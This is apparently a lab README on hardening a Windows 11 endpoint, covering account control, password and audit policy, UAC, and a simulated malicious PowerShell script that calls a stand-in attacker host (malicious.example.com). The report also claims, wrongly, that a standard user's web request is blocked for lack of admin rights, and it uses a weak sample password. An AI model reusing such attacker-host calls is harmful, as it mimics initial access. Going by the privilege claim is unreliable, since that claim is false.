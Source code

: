 # Hardening Report — Windows 11 Endpoint

This report documents the technical steps taken to harden a default Windows 11 Pro system in a virtual lab. Actions were selected to improve local account control, enforce least privilege, implement basic password policy hygiene, and simulate real-world defense-in-depth principles. Each step includes rationale, implementation, and verification details.

---

## Before vs. After Summary

| Category              | Before                         | After                          |
|-----------------------|--------------------------------|--------------------------------|
| Guest Account         | Enabled                        | Disabled                       |
| Admin Account Name    | `Administrator`                | `svc_sysmgr`                   |
| Daily User Privilege  | Admin                          | Standard (non-admin)           |
| Password Complexity   | Disabled                       | Enabled                        |
| Password Min Length   | 8                              | 12                             |
| UAC Settings          | “Never Notify”                 | “Always Notify”                |
| Audit Policy          | Not configured                 | Enabled for logon, privilege use, object access |
| PowerShell Execution  | Unrestricted as admin          | Blocked or UAC-protected       |

---

## Account Control

### Renamed Default Administrator Account
- **Why:** Obfuscates a high-value target account frequently exploited by attackers
- **Command:**
  ```powershell
  Rename-LocalUser -Name "Administrator" -NewName "svc_sysmgr"
  ```
- **Verification:**  
  ```powershell
  net user
  ```  
   ![Admin Rename](./images/admin_rename.png)

---

### Disabled Guest Account
- **Why:** Prevents unauthenticated logons via built-in low-privilege account
- **Command:**
  ```powershell
  Disable-LocalUser -Name "Guest"
  ```
- **Verification:**
  ```powershell
  net user Guest
  ```  
  Look for `Account active: No`  

 ![Disable Guest](./images/disable_guest.png)

---

### Created Standard User Account
- **Why:** Enforces least privilege for daily tasks
- **Commands:**
  ```powershell
  net user TestUser Password123! /add
  net localgroup Users TestUser /add
  net localgroup Administrators TestUser /delete
  ```
- **Verification:** Group membership before/after  

 ![Users Group](./images/users_group.png)
---

## Password Policy

### Enforced Strong Password Requirements
- **Min length:** `12`
- **Complexity:** Enabled (uppercase, lowercase, number, symbol)
- **Password history:** 12 remembered
- **Min age:** 1 day
- **Max age:** left at default (42 days)
- **How:**  
  `gpedit.msc → Computer Configuration → Windows Settings → Security Settings → Account Policies → Password Policy`  
 ![Disable Guest](./images/gpo_password_policy_after.png)

---

### Enabled Password Length Auditing
- **What:** Set `Minimum password length audit` to `16`
- **Why:** Allows auditing before enforcing stricter policy
- included with password policy screenshot

---

### Disabled Insecure Options
- **Reversible encryption:** Disabled  
- **Relax minimum length enforcement:** Disabled  

---

## User Account Control (UAC)

### Raised UAC Settings
- **Change:** “Never notify” → “Always notify”
- **Why:** Ensures elevation prompts appear for all privileged actions
- **How:**  
  `Control Panel → User Accounts → Change User Account Control settings`
- `images/uac_before.png`, `images/uac_after.png`

---

## Audit Policy Configuration

### Enabled Basic Security Auditing
- **Enabled policies:**
  - `Audit logon events`
  - `Audit privilege use`
  - `Audit process tracking`
  - `Audit object access`
- **Why:** Provides visibility into login behavior, permission use, and program execution
- **How:**  
  `gpedit.msc → Security Settings → Local Policies → Audit Policy`
- `images/audit_policy_configured.png`

---

## Simulated Payload Test (Before vs. After)

### Purpose
To demonstrate the impact of user privilege and UAC on potentially malicious PowerShell execution, simulating initial access tactics commonly seen in real-world attacks.

### Method
Created a harmless but suspicious PowerShell script:

```powershell
# fake-malware.ps1
Write-Output "Connecting to attacker..."
Start-Sleep -Seconds 2
Invoke-WebRequest http://malicious.example.com -UseBasicParsing
Write-Output "Payload delivered."
```

### Before Hardening
- Executed as built-in Admin user
- Ran silently, made outbound request without prompt
- `images/fake_payload_admin_exec.png`

### 🛡️ After Hardening
- Ran as standard user with UAC enforced
- Blocked or triggered elevation prompt
- Prevented web request due to lack of admin rights
- `images/fake_payload_blocked_standard_user.png`

### ATT&CK Mapping:
- `T1059` – Command and Scripting Interpreter  
- `T1204` – User Execution

---

## Framework Alignment

This hardening configuration aligns with:
- **CIS Microsoft Windows 11 Benchmark – Level 1**
- **NIST 800-53 Rev 5** control families:
  - `AC-2` (Account Management)  
  - `AC-6` (Least Privilege)  
  - `AU-2` (Audit Events)  
  - `IA-5` (Authenticator Management)

---

## Conclusion

This lab simulates common endpoint hardening tasks in a Windows 11 Pro environment, executed without domain infrastructure. Though foundational, these controls form the baseline for defense-in-depth strategies and reflect real-world configurations used in help desk, desktop support, and SOC environments.

This project demonstrates practical experience with:
- PowerShell administration
- Group Policy configuration
- Privilege management
- UAC tuning
- Scripted security testing
- Technical documentation
